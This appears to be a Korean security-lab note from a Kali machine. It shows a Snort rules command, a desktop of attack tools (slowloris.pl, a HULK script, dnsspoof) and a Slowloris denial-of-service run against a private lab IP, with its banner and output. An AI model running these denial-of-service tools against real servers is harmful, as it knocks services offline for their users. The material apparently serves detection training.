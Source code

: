  [root@Linux-04 rules]# snort -l /var/log/snort/ -c local.rules

  

  ###### 칼리

  root@kali-04:~/Desktop# ls

  ```
  dict.txt  dnsspoof.txt  ever_hulk.py  gFncCQxh.jpeg  pentest.co.kr_ips.txt  slowloris.pl
  ```

  root@kali-04:~/Desktop# 
  root@kali-04:~/Desktop# ls -l

  ```
  total 116
  -rw-r--r-- 1 root root    77 Sep 15 17:11 dict.txt
  -rw-r--r-- 1 root root    31 Sep 29 16:07 dnsspoof.txt
  -rw-r--r-- 1 root root   814 Oct  6 16:43 ever_hulk.py
  -rw-r--r-- 1 root root 82807 Sep 17 11:21 gFncCQxh.jpeg
  -rw-r--r-- 1 root root     0 Sep 15 17:12 pentest.co.kr_ips.txt
  -rw-r--r-- 1 root root 18833 Oct  6 15:49 slowloris.pl
  ```

  root@kali-04:~/Desktop# vim slowloris.pl

  

  root@kali-04:~/Desktop# perl slowloris.pl -dns 172.16.10.20

  ```
  CCCCCCCCCCOOCCOOOOO888@8@8888OOOOCCOOO888888888@@@@@@@@@8@8@@@@888OOCooocccc::::
  CCCCCCCCCCCCCCCOO888@888888OOOCCCOOOO888888888888@88888@@@@@@@888@8OOCCoococc:::
  CCCCCCCCCCCCCCOO88@@888888OOOOOOOOOO8888888O88888888O8O8OOO8888@88@@8OOCOOOCoc::
  CCCCooooooCCCO88@@8@88@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888@8888OOOCc::::
  CooCoCoooCCCO8@88@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc:
  ooooooCoCCC88@88888@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88@888OCoccc
  ooooCCOO8O888888888@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo
  oCCCCCCO8OOOCCCOO88@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC
  oCCCCCOOO88OCooCO88@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC
  oCCCCOO88OOCCCCOO8@@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO
  CCCOOOO88OOCCOOO8@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O
  CCCOO88888OOCOO8@@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO
  OOOOOO88888OOOO8@8@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO
  OOOOO888@8@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO
  COOO888@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO
  CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC
  coooCCO8@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC
  :ccooooCO888OOOO8OOc..:...::. .co8@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC
  .:::coocccoO8OOOOOOC:..::....coCO8@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC
  ....::::ccccoCCOOOOOCc......:oCO8@8@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo
  .......::::::::cCCCCCCoocc:cO888@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc
  ...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co
  .............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo
   ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC
     .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco
    .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc
         .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco
   Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client
  Defaulting to port 80.
  Defaulting to a 5 second tcp connection timeout.
  Defaulting to a 100 second re-try timeout.
  Defaulting to 1000 connections.
  Multithreading enabled.
  Connecting to 172.16.10.20:80 every 100 seconds with 1000 sockets:
  ```
